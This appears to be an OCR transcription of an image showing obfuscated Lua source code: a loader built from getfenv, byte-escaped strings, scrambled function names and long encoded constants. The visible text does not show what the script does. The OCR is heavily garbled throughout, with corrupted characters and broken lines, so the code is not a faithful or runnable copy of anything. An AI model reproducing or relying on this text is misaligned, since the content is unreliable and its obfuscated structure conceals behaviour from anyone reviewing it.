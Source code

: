 n=0
l={};wh�4n<653 do n=n+1`0x2a3 and e%0x3e1c<0x1f0e+@ e=(e*867)%41666 	� b=n+e if(8@2560)>0x12b0 then	500xc9)%0x4385 �0x3acr466a�335:r $627)%26667Nr 40ber205fr+0x225sb998
8He=99803 if not l[e]�	=0x1 t=5� l-�e=0x01
A$ n(n)e=e+n-�0 l:sub(e-n,e-1)end
�tru%D).l=n(!(if(l=="\5")�break 7	) e=o.byte(
0�n(e)if =2"<He=f.Lfcz_puE(e)else" 3"e~="\0".  6	d[e]�\n,e)return r(8,nil,r,e,n�.>  4	>e=@.  0. [n(:� )];� n)8)f[n]=e% 	�e%2~=6M42!�8bc25-763j�d=(!�d)A� _ENV or d�fE�-0x37aY96e4� +1�e=76802f9�a="\4\8\116\111\110\117\109\98\10T4\76\102\99\122\95\112(69\0\;4\100\103\4304\97\1
 6'8\8^,3\108\89\118rI 3\1c 7��02\8077\81�80rC  4-12��1\100\65	�V�0\� 6�%�1\6�10�� 9	�3\8%-68\7!
 6bH 5&��!K 0O	H4\8� 9� 5")���Vg+0x10dA587em� n� 5�'24c626�REM$*122)%2040M� d.&(dcc)>=0x6e6��-0x15�&bbcd
7e=47118fzv� e1�94b5P97204�P 	�0x3B5422>987jH _=tonuH4Bm[!_68�876qn�e0�9b4�4da6(+249)%14604
� t.f4396%g21cb9h*0x2d�6cc�Se=7742jh d=getfenv�
()	�VB-0x54�323e
�e=44295f� f�1�%*�16H97de>�068j� o=string	RA�. 0=(e-643)%1727EJt(a)2 n�for�,0xff!~ɝ@l=f.iBvXglYv(e);n�Cl;n[l]=em	(�1b(�V,#a=(&(r,t��a,l�y ,a�
Mn={{}, }	_d=�m
 2�o=rMO�Xn[0x03][f.ofPbMQLP(t,e,~)e=a+e��!�01!)())]�)d=d+��+ d
&if d==�� f��d=""�00��!��#t
�e<
T�	�2]!Mҭ l=l	�%0x02=!M�D	�, f.jqTJSwLr(p1],(b(((	3][2]�,0]]or 0x00)*!�)+N&  1&+oA�,100)));o=r+o%��\$f.wBqTLDJj	K1]ax);t(a(169,"yWaVJoF1f_tIg./pog")
�n81,"^:pYT0>=JeClz.4VTlez0TC34epl=llVC=0pC4V:YVJ=.JV:0:e4.lTV===>zp=Jl>VV00C*4>Yl>4lg4zT.J0.p.Jp=..pC>zlzm.T0CezYYlJ>.Y:CY4YzJ.T0e:.C:z>zlqeeTzJl4epY=YCYVYY4lbzCpzeu.0C4V.l:V;T4J.=0p=>Cl>:T0=C>VYTpJe.T:V0le=J44:eY.tpC>4l:+lTYC:.ep0=Cl4VT0.lpV>:>eTlJVC,KT44JTpJl4=p.=lJ=4>TYJl.V:>0zz=:=VlT>3TYeJz4pYp>.el4:Y=eCzDPe:Y0.4BYzl=4CYlJb.epe=YT4e.0TeC4eY0=4zi:W0TC=zlY=0V..NY=pe.eU4!eC.p:4=Yl=CY0.C:44pC==zC:VT>CVV=Tz=>.4}>S>0YN.0:e4.Cp==CzJVJYClp44pYJ.l>l>{plJI0T=e=4JwY0az4:p00J=4lTp:l>Jp(0.CVVYYzeJz=%pTClz4ppJJlzYz=:>zC(e>=C>J4YCJl.epT=pCYVeYAeTzzpVJ0CVCJ"));local e=(-2478+(function()local o,n=0,1;(function(e,n,d,l)n(d(l,e,n,d5
l(e,d,$,l(l,n,d,l�e),n(d	  ,n),e(e,e*l)Eۙit,l,e,d�0o>214ɜm te&Po=o+1 n=(n+321)%21389e
,n%1844)>=922>8 ls��l(t(l
g,d(d
�d,t�t,e
�t,	�-�e(
,e,+Bt,t,d��d(d(�	-t,t!	O d! 	 l
t1e,e( l
�!W eW ,� lk ,�o>406�  l:!$*363)%2492�W!!624)<81
7%E$514)%36048� e�1v (!� t���d,d�!e,le,l,�!�9l()�)-)` e/	@5,d)�%� l!e(OB�  d%v lI486�l](*309)%37080M360)<=68���:�  tA�.� �
 e
� d� t-�d),t
�)� e!�e(A l:l(d
/ t)D� laFA=%+!ZF	d,t)	27,
�>	 +780)%495�A978a(89i(E$887)%38180H l2e(l�� dI�)�A$qKEae'i�S da}C!(�19Q!j dM"%)M d)!$){e�{!�i&� n�R�K,h=f.nSJwhRqO�$f.uQolvUrO�	m=(�
)or��O�
/d=2
b=4
ne=1
t=3
q� y(s*��